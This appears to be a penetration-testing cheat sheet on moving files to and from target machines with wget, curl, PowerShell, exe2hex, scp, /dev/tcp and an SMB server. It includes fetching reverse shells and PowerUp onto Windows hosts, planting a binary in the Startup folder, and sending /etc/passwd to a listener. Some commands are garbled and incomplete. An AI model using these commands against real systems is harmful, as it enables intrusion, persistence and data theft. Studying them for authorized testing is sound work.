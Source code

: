 # Tools & Files Transfer

I**n Kali, c**onfigure a Webserver

```jsx
python3 -m http.server 80
```

## **Download Files from Linux Machine**

***

Using Wget

```jsx
wget <http://ip:80/file.txt
```

Using Curl

```jsx
curl <http://ip:80/file.txt
```

## **Download Files from Windows Machine**

***

Using Wget

```jsx
wget <http://ip:80/nc.exe> -outfile nc.exe
```

Using PowerShell:

```jsx
powershell "(New-Object System.Net.WebClient).DownloadFile('')"
```

Using PowerShell (with specified path)

```jsx
(New-Object System.Net.WebClient).DownloadFile("<http://10.10.10.10/PowerUp.ps1>", "C:\\\\Windows\\\\Temp\\\\PowerUp.ps1")
```

Using PowerShell (alternative syntax)

```jsx
powershell -c "(new-object System.Net.WebClient).DownloadFile('')"
```

Using PowerShell (with Invoke-WebRequest)

```jsx
powershell -c "Invoke-WebRequest -Uri '<http://192.168.119.212:8000/reverse.exe>' -OutFile 'C:\\\\xampp\\\\htdocs\\\\reverse.exe'"
```

Using PowerShell (copy to startup folder)

```jsx
Invoke-WebRequest "<http://10.10.10.10/binary.exe>" -OutFile "C:\\\\ProgramData\\\\Microsoft\\\\Windows\\\\Start Menu\\\\Programs\\\\StartUp\\\\binary.exe"
```

#### **Transfer Binaries to Windows with Exe2Hex:**

Locate the Binary in Kali

```jsx
locate nc.exe | grep binaries
```

Copy the Binary

```jsx
cp /usr/share/windows-resources/binaries/nc.exe .
```

Reduce File Size (Optional, using UPX)

```jsx
upx -9 nc.exe
```

Convert the Binary to a Windows Script

```jsx
exe2hex -x nc.exe -p nc.cmd head nc.cmd
```

Copy and Paste the Script to the Shell

Verify the Binary:

```jsx
nc -h
```

## **Transfer Files Over Network**

***

### **SSH**

Copy remote file to local

```jsx
scp user@192.168.1.1:passwords.txt /some/local/directory
```

Copy local file to remote host

```jsx
scp passwords.txt username@192.168.1.1:/some/remote/directory
```

### **/dev/tcp**

Send data to a remote machine (listener required on the specified port)

```jsx
cat /etc/passwd > /dev/tcp/192.168.1.1/8080
```

Receive the connection on Kali

```jsx
nc -nlvp 8080
```

### **SMB Server:**

Configure an SMB server in the same directory as the file

```jsx
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

Copy the file from the Windows machine

```jsx
copy $IP\\kali\\reverse.exe C:\\Users\\reverse.exe
```
